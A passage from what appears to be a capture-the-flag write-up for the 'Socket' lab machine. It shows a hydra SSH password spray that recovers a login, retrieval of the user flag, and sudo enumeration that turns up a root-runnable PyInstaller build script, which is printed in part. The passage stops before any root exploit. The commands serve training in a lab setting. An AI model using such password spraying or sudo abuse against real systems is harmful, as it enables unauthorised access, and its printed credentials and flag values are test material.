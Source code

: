 
### SSH Password Spray

```bash
┌──(root㉿kali)-[~/socket/username-anarchy]
└─# hydra -L usernames.txt -p denjanjade122566 ssh://qreader.htb      
...
[DATA] attacking ssh://qreader.htb:22/
[22][ssh] host: qreader.htb   login: tkeller   password: denjanjade122566
```


## Get Flag

```bash
┌──(root㉿kali)-[~/socket/username-anarchy]
└─# ssh tkeller@qreader.htb                
tkeller@socket:~$ cat user.txt 
3d83d5ee019b0c8f5f6deefe0fbe3c52
```


# Root Flag
---


## Sudo - Pyinstaller Build Script

There's a script which is able to run as root

```bash
tkeller@socket:~$ sudo -l
Matching Defaults entries for tkeller on socket:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh
```

Analyze the script

```bash
tkeller@socket:~$ ls -la /usr/local/sbin/build-installer.sh
-rwxr-xr-x 1 root root 1096 Feb 17 11:41 /usr/local/sbin/build-installer.sh
tkeller@socket:~$ cat /usr/local/sbin/build-installer.sh

#!/bin/bash
if [ $# -ne 2 ] && [[ $1 != 'cleanup' ]]; then
  /usr/bin/echo "No enough arguments supplied"
  exit 1;
fi

action=$1
name=$2
ext=$(/usr/bin/echo $2 |/usr/bin/awk -F'.' '{ print $(NF) }')

if [[ -L $name ]];then
  /usr/bin/echo 'Symlinks are not allowed'
  exit 1;
fi

if [[ $action == 'build' ]]; then
  if [[ $ext == 'spec' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /home/svc/.local/bin/pyinstaller $name
```